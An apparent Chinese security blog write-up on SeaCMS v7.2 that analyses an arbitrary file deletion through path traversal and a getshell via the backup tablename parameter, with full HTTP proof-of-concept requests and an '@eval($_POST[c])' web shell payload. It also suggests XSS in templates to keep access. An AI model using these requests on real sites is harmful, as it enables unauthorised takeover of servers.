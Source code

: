 ```yaml
---
title: "Seacmsv7.2任意文件删除&Getshell"
date: 2019-01-10T21:17:21+08:00
lastmod: 2019-01-10T21:17:21+08:00
draft: false
tags: ['filedel','getshell']
categories: ['Vulnerability']
comment: true
---
```


海洋cms是为解决站长核心需求而设计的视频内容管理系统，适用于各大视频站点，支持自定义模板和解析接口，是各大视频站长的不错选择之一。官方版本已经在2019年1月10日更新版本到v8.1，请尽快更新版本。

<!--more-->

### 安装
![](https://y4er.com/img/uploads/20190509168375.jpg "安装")
版本信息查看
```http
http://127.0.0.1/seacms/data/admin/ver.txt
```
在安装完之后提示我后台地址为`http://127.0.0.1/seacms/shwpap`，可以看出后缀是随机命名的。
在网站目录搜索`重要`跟进代码
![](https://y4er.com/img/uploads/20190509164151.jpg)
可以看到有一个`randomkeys(6)`方法，继续跟进

![](https://y4er.com/img/uploads/20190509168190.jpg)

后台目录是由程序生成的随机6位字符，可以用burp爆破。不过基数过大，不建议。

![](https://y4er.com/img/uploads/20190509169761.jpg)

### 任意文件删除
`seacms/shwpap/admin_template.php`
![](https://y4er.com/img/uploads/20190509167138.jpg)
可以看到只允许操作路径前11位是`$dirTemplate`变量也就是`../templets`的文件，那么我们可以尝试用`../`来操作

![](https://y4er.com/img/uploads/20190509167239.jpg)

通过edit可以读文件，但是因为程序中写死了，只能读取html、html、js、css、txt文件，不能读取php文件，实战中我们可以通过编辑模板插入xss维持权限。

我们尝试用`del`操作，删除`install\install_lock.txt`文件：

![](https://y4er.com/img/uploads/20190509167072.jpg)

```http
GET /seacms/shwpap/admin_template.php?action=del&filedir=../templets/../install/install_lock.txt HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/seacms/shwpap/admin_template.php?action=custom
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=9vlafp1q6b4cro69qk7bhged06
Connection: close


```

### getshell

可上传类型程序写死，上传文件后缀名白名单写死，sql高级助手执行sql语句双waf，那么真正的突破口出现在备份上

![](https://y4er.com/img/uploads/20190509166250.jpg)

备份完之后备份文件是php后缀，虽然避免了备份文件被下载，但是真正getshell的点也出在这了。

为了请求包简洁，我们只勾选一个表`sea_admin`，修改包中请求的`tablename`参数为我们的恶意代码，然后访问备份路径下的`config.php`文件就可以得到我们的shell了。
poc如下：
```http
POST /seacms/shwpap/ebak/phomebak.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 260
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/seacms/shwpap/ebak/ChangeTable.php?mydbname=seacms&keyboard=sea
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=9vlafp1q6b4cro69qk7bhged06
Connection: close

phome=DoEbak&mydbname=seacms&baktype=0&filesize=1024&bakline=1000&autoauf=1&bakstru=1&dbchar=utf8&bakdatatype=1&mypath=seacms_2019&insertf=replace&waitbaktime=0&readme=&tablename%5B%5D=@eval($_POST[c])&chkall=on&Submit=%E5%BC%80%E5%A7%8B%E5%A4%87%E4%BB%BD
```
![](https://y4er.com/img/uploads/20190509165279.jpg)

注意看路径，以及代码的闭合状况。经过测试，`@eval($_POST[c])`是刚好可用的payload。



参考链接

1. https://xz.aliyun.com/t/3805
2. https://www.seacms.net/doc/logs/
3. http://ahdx.down.chinaz.com/201901/seacms_v7.1.zip